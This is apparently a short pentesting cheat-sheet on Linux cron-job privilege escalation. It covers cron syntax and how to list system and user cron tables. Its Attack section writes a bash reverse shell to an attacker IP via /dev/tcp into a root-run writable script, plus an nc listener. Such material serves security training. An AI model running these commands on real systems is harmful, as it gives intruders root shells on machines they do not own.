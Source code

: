### Introduction
Cronjobs are Linux's ***scheduled tasks***. They are generally used to ***automate administrative and maintenance tasks*** and can be set up by low-level users to automate day-to-day time-consuming tasks.

**Example**
`7 * 8 * * /tmp/script.sh`

This means `script.sh` from folder `tmp` will be ***executed at the seventh minute of every hour on the eighth day of each month***.

For system-wide tasks, the cron tables are read from `/etc/crontab.` 

### Privilege Escalation
Privilege escalation are generally happen when a ***root cronjob runs a file that low-level users can edit***. 

### List Cronjobs
**For the current user**
```bash
crontab -l
```

**For a specific user (as root)**
```
crontab -u <username> -l
```

**System-wide cron jobs**
```
cat /etc/crontab
ls /etc/cron.d/
ls /etc/cron.daily/
ls /etc/cron.hourly/
ls /etc/cron.weekly/
ls /etc/cron.monthly/
```

### Attack
**Modify the script to get a reverse shell**
```bash
#!/bin/bash
bash -i >& /dev/tcp/<kali_ip>/<port> 0>&1
```

**On attacker machine, start a listener**
```
nc -nvlp <port>
```